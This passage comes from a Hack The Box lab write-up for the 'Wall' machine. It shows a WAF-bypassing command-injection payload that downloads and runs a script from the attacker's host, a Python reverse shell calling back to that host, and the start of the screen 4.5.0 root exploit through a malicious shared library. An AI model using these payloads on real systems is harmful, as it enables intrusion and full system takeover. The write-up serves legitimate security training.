 ![](/assets/images/htb-writeup-wall/Screenshot_12.png)

After a bit of trial an error I found that the following payload goes through the WAF:

`"nagios_bin": "wget${IFS}-O${IFS}/tmp/test.py${IFS}http://10.10.14.19/test.py;python${IFS}/tmp/test.py"`

I setup my `test.py` to contain a standard python reverse shell (since nc / ncat wasn't installed on the target box):

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

![](/assets/images/htb-writeup-wall/Screenshot_13.png)

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
```

## Privesc

When I was checking for SUID files, I spotted something odd: The screen binary has been renamed to include the version number so this looks like a hint to me. I remember on the Flujab box that they used the same priv esc method.

```
$ find / -perm /4000 2>/dev/null
/bin/mount
/bin/ping
/bin/screen-4.5.0
[...]
```

This particular version of the `screen` software opens the logfile with full root privileges so it's possible to write any file anywhere on the system. In a nutshell, the priv esc is:

1. Compile `/tmp/rootshell`, a binary that simply spawns /bin/sh as user root
2. Compile `/tmp/libhax.so`, a shared library that will be loaded by `screen` as root. It chmods my `rootshell` binary to make it run as root.
3. Run screen and overwrite `/etc/ld.so.preload` to include the shared library `/tmp/libhax.so`
4. Run screen gain, this will load the shared library and execute the code
5. Now, the rootshell binary is SUID root and we can run it to get root access

```
$ cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
} 
> EOF

$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
$ rm -f /tmp/libhax.c
```

